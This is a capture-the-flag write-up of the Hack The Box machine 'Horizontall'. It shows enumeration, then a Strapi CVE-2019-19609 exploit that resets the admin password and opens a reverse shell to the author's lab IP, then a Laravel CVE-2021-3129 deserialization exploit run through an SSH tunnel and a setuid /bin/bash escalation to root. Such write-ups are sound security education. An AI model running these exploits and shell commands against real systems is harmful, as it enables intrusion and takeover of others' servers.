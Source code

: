 ```yaml
---
layout: post
title: "HTB: Horizontall"
author: Andrew Cherney
date: 2023-02-17 19:55:05
tags: htb easy-box
icon: "assets/icons/horizontall.png"
post_description: "This box is a great example of how much information can be leaked by basic scripts and services. A javascript file leaks a subdomain with an api, and then the login portal leaks the vulnerable version of strapi being run. To gain root there is a somewhat clever way of ssh tunneling to manipulate a vulnerable local service on the box."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $nmap -sC 10.10.11.105
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-17 20:26 CST
Nmap scan report for horizontall.htb (10.10.11.105)
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http
|_http-title: horizontall
```

<h2>Port 80 - HTTP</h2>

{% include img_link src="/img/horizontall/front_page" alt="front_page" ext="png" trunc=500 %}

In looking around the javascript file **app.c68eb462.js** I find a reference to **http://api-prod.horizontall.htb/reviews** and I can now add <code>10.10.11.105 api-prod.horizontall.htb horizontall.htb</code> to my **/etc/hosts** file.

<h2>api-prod</h2>

{% include img_link src="/img/horizontall/api-prod_front" alt="front_page" ext="png" trunc=100 %}

![api-prod reviews](/img/horizontall/Horizontall_json_reviews.png)

There seems to be some uploaded json for reviews of a service/product here. I'll toss out a dirb to find anything else on this subdomain.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $dirb http://api-prod.horizontall.htb

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Feb 18 11:18:40 2023
URL_BASE: http://api-prod.horizontall.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://api-prod.horizontall.htb/ ----
+ http://api-prod.horizontall.htb/admin (CODE:200|SIZE:854)                                   
+ http://api-prod.horizontall.htb/Admin (CODE:200|SIZE:854)                                   
+ http://api-prod.horizontall.htb/ADMIN (CODE:200|SIZE:854)                                   
+ http://api-prod.horizontall.htb/favicon.ico (CODE:200|SIZE:1150)                            
+ http://api-prod.horizontall.htb/index.html (CODE:200|SIZE:413)                              
+ http://api-prod.horizontall.htb/reviews (CODE:200|SIZE:507)                                 
+ http://api-prod.horizontall.htb/robots.txt (CODE:200|SIZE:121)                              
+ http://api-prod.horizontall.htb/users (CODE:403|SIZE:60)  
```

<h1>User as strapi</h1>

<h2>CVE-2019-19609</h2>

Heading to that admin portal I am met with a strapi login screen. When searching for vulnerabilities on exploit-db the only versions with known exploits are **3.0.0-beta.17.4 and 3.0.0-beta.17.7** so I get to trying to find the strapi verison. 

![strapi version](/img/horizontall/Horizontall_version_strapi.png)

Bingo, we're on **beta.17.4** which means [this unauthenticated RCE](https://www.exploit-db.com/exploits/50239) should let me get a shell as www-data. In reading through the exploit it seems I could have gone to **http://api-prod.horizontall.htb/admin/init** to find out the strapi version. 

Unfortunately this exploit doesn't seem to give me RCE. On the up side it did reset the password of admin to **SuperStrongPassword1** and when I log in it gives me a jwt of:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjc2NzQ3NTg3LCJleHAiOjE2NzkzMzk1ODd9.O0y5CLqbmYKRIRg0KNy0BjKxELvdlGeQquP9pwnGgVY
```

Now in searching for other exploits I came across [this exploit using a jwt for RCE](https://github.com/diego-tella/CVE-2019-19609-EXPLOIT/blob/main/exploit.py). At the endpoint /admin/plugins/install there is a way to pipe commands through and bypass traditional authentication methods.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $python3 strapi_jwt_exploit.py -d api-prod.horizontall.htb -jwt eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjc2NzQ3NTg3LCJleHAiOjE2NzkzMzk1ODd9.O0y5CLqbmYKRIRg0KNy0BjKxELvdlGeQquP9pwnGgVY -l 10.10.14.14 -p 7777
[+] Exploit for Remote Code Execution for strapi-3.0.0-beta.17.7 and earlier (CVE-2019-19609)
[+] Remember to start listening to the port 7777 to get a reverse shell
[+] Sending payload... Check if you got shell
[+] Payload sent. 
```

```
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.105] 45220
/bin/sh: 0: can't access tty; job control turned off
$ 
```

<h1>Root</h1>

<h2>Laravel</h2>

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.105] 45232
/bin/sh: 0: can't access tty; job control turned off
$ netstat -tunlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1862/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -             
```

I found that there is a service running on port 8000 of localhost. In curling that service I find out that it is Laravel v8 (PHP v7.4.18). In a cursory search of exploits I find [this CVE-2021-3129 exploit for versions <=8.4.2](https://github.com/ambionics/laravel-exploits). I'll set up an ssh key for the user strapi and use ssh tunneling to run exploits against this localhost service from my host machine. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $ssh strapi@10.10.11.105 -i key -L 8000:localhost:8000
```

I can then execute the payload towards my localhost:8000 and it will target the laravel service on the box. Then I can clone the phpggc repo and run the laravel exploit after generating my payload.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall/phpggc]
└──╼ $php -d'phar.readonly=0' ./phpggc --phar phar -o shell.phar --fast-destruct monolog/rce1 system id
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall/phpggc]
└──╼ $cd ..
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $python3 laravel_exploit.py http://localhost:8000/ phpggc/shell.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
uid=0(root) gid=0(root) groups=0(root)
--------------------------
+ Logs cleared
```

Well that is awfully convenient that laravel is running as root. Since this exploit is RCE I can have it change /bin/bash to be an SUID and get root. 

```bash
php -d'phar.readonly=0' ./phpggc --phar phar -o shell.phar --fast-destruct monolog/rce1 system "chmod u+s /bin/bash"
```

```bash
$ /bin/bash -p
bash-4.4# cat /root/root.txt
b83c0d741c44ab-----------------
```

